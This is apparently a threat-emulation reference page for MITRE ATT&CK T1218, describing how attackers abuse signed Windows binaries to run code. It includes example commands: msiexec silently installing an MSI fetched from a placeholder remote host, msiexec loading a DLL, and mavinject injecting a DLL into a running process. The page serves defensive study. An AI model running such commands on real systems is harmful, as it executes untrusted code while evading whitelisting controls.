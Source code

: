 # T1218 - Signed Binary Proxy Execution

## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1218)

<blockquote>Binaries signed with trusted digital certificates can execute on Windows systems protected by digital signature validation. Several Microsoft signed binaries that are default on Windows installations can be used to proxy execution of other files. This behavior may be abused by adversaries to execute malicious files that could bypass application whitelisting and signature validation on systems. This technique accounts for proxy execution methods that are not already accounted for within the existing techniques.

### Msiexec.exe

Msiexec.exe is the command-line Windows utility for the Windows Installer. Adversaries may use msiexec.exe to launch
malicious MSI files for code execution. An adversary may use it to launch local or network accessible MSI files.(
Citation: LOLBAS Msiexec)(Citation: Rancor Unit42 June 2018)(Citation: TrendMicro Msiexec Feb 2018) Msiexec.exe may also
be used to execute DLLs.(Citation: LOLBAS Msiexec)

* <code>msiexec.exe /q /i "C:\path\to\file.msi"</code>
* <code>msiexec.exe /q /i http[:]//site[.]com/file.msi</code>
* <code>msiexec.exe /y "C:\path\to\file.dll"</code>

### Mavinject.exe

Mavinject.exe is a Windows utility that allows for code execution. Mavinject can be used to input a DLL into a running
process. (Citation: Twitter gN3mes1s Status Update MavInject32)

* <code>"C:\Program Files\Common Files\microsoft shared\ClickToRun\MavInject32.exe" &lt;PID&gt; /INJECTRUNNING &lt;PATH
  DLL&gt;</code>
* <code>C:\Windows\system32\mavinject.exe &lt;PID&gt; /INJECTRUNNING &lt;PATH DLL&gt;</code>

### SyncAppvPublishingServer.exe

SyncAppvPublishingServer.exe can be used to run PowerShell scripts without executing powershell.exe. (Citation: Twitter
monoxgas Status Update SyncAppvPublishingServer)

### Odbcconf.exe

Odbcconf.exe is a Windows utility that allows you to configure Open Database Connectivity (ODBC) drivers and data source
names.(Citation: Microsoft odbcconf.exe) The utility can be misused to execute functionality equivalent
to [Regsvr32](https://attack.mitre.org/techniques/T1117) with the REGSVR option to execute a DLL.(Citation: LOLBAS
Odbcconf)(Citation: TrendMicro Squiblydoo Aug 2017)(Citation: TrendMicro Cobalt Group Nov 2017)
